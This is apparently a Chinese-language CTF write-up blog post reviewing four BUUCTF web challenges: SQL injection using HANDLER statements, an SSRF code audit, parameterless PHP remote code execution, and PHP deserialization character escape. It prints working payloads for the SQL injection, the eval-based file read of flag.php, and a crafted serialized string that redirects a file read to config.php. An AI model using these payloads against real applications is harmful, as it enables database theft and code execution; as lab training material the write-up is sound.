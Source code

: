 ```yaml
---
title: buu知识点复习(四)
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-09-02 21:27:03
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1097136.png
---
```

一、[GYCTF2020]Blacklist--sql注入
和强网杯那道题差不多，但是过滤了alter和rename。很明显不是上次那个方法了。
这里要用到handler这个东西
HANDLER … OPEN语句打开一个表，使其可以使用后续HANDLER … READ语句访问，该表对象未被其他会话共享，并且在会话调用HANDLER … CLOSE或会话终止之前不会关闭
1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;#


二、[De1CTF 2019]SSRF Me--python代码审计
这题没什么好记录的知识点，但是我认为是很重要的一题，因为比赛的时候多是这种综合性的代码审计。
https://blog.csdn.net/weixin_43900387/article/details/105278192
https://www.cnblogs.com/Cl0ud/p/12177116.html
研究了两小时，终于全部搞明白了，希望对以后做题的时候有所帮助。

三、[GXYCTF2019]禁止套娃--无参数RCE

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720200903122052.jpg)

1.需要以GET形式传入一个名为exp的参数。如果满足条件会执行这个exp参数的内容。
2.过滤了常用的几个伪协议，不能以伪协议读取文件。
3.(?R)引用当前表达式，后面加了?递归调用。只能匹配通过无参数的函数。
4.正则匹配掉了et/na/info等关键字，很多函数都用不了。
5：eval($_GET['exp']); 典型的无参数RCE

首先需要扫描目录下的文件，这就需要构造：
print_r(scandir('.'));
但怎么实现用函数替换中间的参数呢，这就需要localeconv()，localeconv()自带常量为 . 。
current()函数可以返回数组中当前元素的值，所以payload：
print_r(scandir(current(localeconv())));
flag.php在第四位，next()函数可以读取下一位，但是只能使用一次，因为中间必须是数组形式，所以不能像next(next())这样连续使用。
所以还需要用到array_reverse()，交换前后顺序，最后highlight_file输出，payload：
highlight_file(next(array_reverse(scandir(current(localeconv())))));

四、[0CTF 2016]piapiapia--源码分析、php反序列化字符逃逸
终于找到字符逃逸的了。源码因为时间原因就不分析了。（这篇博客拖了三天了）
直接说利用点吧：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200905111248.png)

通过www.zip源码泄露得知flag在config.php，所以理论上只要另$profile[‘photo’]的值为config.php就可以读取flag了。

$profile = a:4:{s:5:"phone";s:11:"12345673845";s:5:"email";s:8:"11@q.com";s:8:"nickname";s:6:"Troy3e";s:5:"photo";s:10:"config.php";}s:39:"upload/c7350266700fbcdc4ff49fcdf65ec863";}

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200905111742.png)

$profile = a:4:{s:5:"phone";s:11:"12345673845";s:5:"email";s:8:"11@q.com";s:8:"nickname";a:1:{i:0;s:1:"1"};s:5:"photo";s:10:"config.php";}s:39:"upload/c7350266700fbcdc4ff49fcdf65ec863";}

但是现在的photo还在nickname里，怎么让$profile[‘photo’]的值为comfig.php呢，这里就要用到字符逃逸。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/123141.jpg)

利用这个正则，where会被替换成hacker，增加了一位，那么输入34个where即可顶掉"};s:5:"photo";s:10:"config.php";}，使$profile[‘photo’]的值为config.php。

$profile = a:4:{s:5:"phone";s:11:"12345673845";s:5:"email";s:8:"11@q.com";s:8:"nickname";a:1:{i:0;s:204:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere"};s:5:"photo";s:10:"config.php";}s:39:"upload/c7350266700fbcdc4ff49fcdf65ec863";}

最后注册登录抓包查看即可。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/12311.jpg)

